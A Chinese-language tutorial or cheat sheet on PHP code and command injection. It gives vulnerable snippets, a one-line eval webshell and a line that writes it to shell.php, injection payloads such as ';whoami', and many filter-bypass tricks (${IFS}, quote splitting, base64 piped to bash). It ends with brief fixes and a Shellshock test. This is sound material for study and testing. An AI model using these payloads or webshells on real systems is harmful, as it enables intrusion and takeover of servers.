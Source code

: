# 命令注入漏洞

> 代码执行：可执行脚本语言代码
>
> 命令执行：可执行系统(Linux、windows)命令

# PHP敏感函数代码执行

```php
eval()		//把字符串作为PHP代码执行
assert()	//检查一个断言是否为 FALSE，可用来执行代码
preg_replace()	//执行一个正则表达式的搜索和替换
call_user_func()//把第一个参数作为回调函数调用
call_user_func_array()//调用回调函数，并把一个数组参数作为回调函数的参数
array_map()		//为数组的每个元素应用回调函数 
```

**eval：**

```php
<?php @eval($_POST["arg"])?>
```

eval函数会将提交上来的值作为PHP代码处理，可以提交phpinfo(); 或者生成一句话shell

```php
fputs(fopen('shell.php','w+'),'<?php @eval($_POST[pass])?>');
```

**preg_replace：(5.5版本以上已废弃/e修饰符)**

```php
<?php preg_replace("//e",$_GET['arg'],"start testing...");?>
```

当replacement 参数构成一个合理的php代码字符串的时候，/e 修正符将参数当做php代码执行

**create_function:**

```php
<?php $test=$_GET["test"];$new_func=create_function('$a,$b', $test);$new_func(2,M_E);?>
```

在php 中使用create_function创建一个匿名函数（lambda-style） 如未对参数进行严格的过滤审查，可以通过提交特殊字符串给create_function执行任意代码.

**使用${${ }}简单绕过：**

```php
<?php $str="echo \"Hello ".$_GET["arg"]."!!\"; ";eval($str);?>
```

代码使用反斜杠将echo后面的内容给转义了 与加addslashes()函数进行过滤是一样的 payload：`arg=${${phpinfo()}}`

# [PHP程序执行函数](https://www.php.net/manual/zh/ref.exec.php) 

```php
system()		//执行外部程序，并且显示输出
exec()			//执行一个外部程序
shell_exec()	//通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回
passthru()		//执行外部程序并且显示原始输出
pcntl_exec()	//在当前进程空间执行指定程序
popen()			//打开进程文件指针
proc_open()		//执行一个命令，并且打开用来输入/输出的文件指针
```

最简单的例子：

```
<?php $test = $_GET['cmd']; system($test); ?>
```

payload：`?cmd=whoami`  这样即可执行系统命令

**举一个类似DVWA里边的例子：**

```
<?php$test = $_GET['cmd'];system("ping -c 3 " . $test);?>
```

payload：`?cmd=127.0.0.1;whoami`

## **命令分隔符：**

**在Linux上**，上面的 ; 也可以用 |、|| 代替

> ;前面的执行完执行后面的
>
> |是管道符，显示后面的执行结果
>
> ||当前面的执行出错时执行后面的
>
> 可用**%0A**换行执行命令



**在Windows上**，不能用 ; 可以用&、&&、|、||代替

>  &前面的语句为假则直接执行后面的
>
>  &&前面的语句为假则直接出错，后面的也不执行
>
>  |直接执行后面的语句
>
> ||前面出错执行后面的

PHP 支持一个执行运算符：反引号（``） PHP 将尝试将反引号中的内容作为 shell 命令来执行，并将其输出信息返回

```php
 <?php echo `whoami`;?>
```

效果与函数 shell_exec() 相同，都是以字符串的形式返回一个命令的执行结果，可以保存到变量中

# 命令执行绕过技巧

**正则审查**

> 是否使用多行模式修饰符（/foo/m）
>
> 是否遗漏匹配对象末尾的换行符（/^\d+$/）
>
> 是否允许空白字符（\s）
>
> 是否误写反斜杠匹配模式（/\\/） 

可用**%0A**换行执行命令，换行符自身是一个有效的**目录分隔符** 

```bash
cat 123/flag
cat 123%0A flag
```

**黑名单绕过**

```php
<?php
$test = $_GET['cmd'];
$test = str_replace("cat", "", $test);
$test = str_replace("ls", "", $test);
$test = str_replace(" ", "", $test);
$test = str_replace("pwd", "", $test);
$test = str_replace("wget", "", $test);
var_dump($test);
system("ls -al '$test'");
?>
```

**shell特殊变量：**ca$1t、ca$@t fla$@g 

**单引号、双引号：** c""at、ca''t、**反斜线** c\at

**base64编码：**`echo "Y2F0IGZsYWc="|base64 -d|bash`、**Hex编码：** echo "63617420666c6167" | xxd -r -p|bash 

**利用变量：** 执行ls命令： a=l;b=s;$a$b	**cat 1.php文件内容：** a=c;b=at;c=1.php;$a$b ${c}



**绕过空格** 

> 用**${IFS}**代替
>
> 读取文件的时候利用重**定向符cat<flag**
>
> 花括号无空格**{cat,666.txt}** 

$IFS可截断后边的内容，cat flag$IFS666.txt

**长度限制**，通过构造文件来绕过

> linux下可以用 1>a创建文件名为a的空文件
> ls -t>test则会将目录按时间排序后写进test文件中
> sh命令可以从一个文件中读取命令来执行

**引号逃逸**

恶意命令被扩在引号内，可用 \ 转义引号逃逸

# 修复方式

> 1、尽量不要使用以上的代码/命令执行函数
>
> 2、使用disable_funtion()禁用以上函数
>
> 3、过滤所有能当作命令分隔符使用的字符

# 相关的漏洞

[bash破壳漏洞](https://github.com/Medicean/VulApps/tree/master/b/bash)

> 验证：env x='() { :;}; echo vulnerable' bash -c "echo this is a test"  

Struts2远程命令执行 ([VulApps](https://github.com/Medicean/VulApps/tree/master/s/struts2)，[Vulhub](https://vulhub.org/#/environments/struts2/s2-057/))
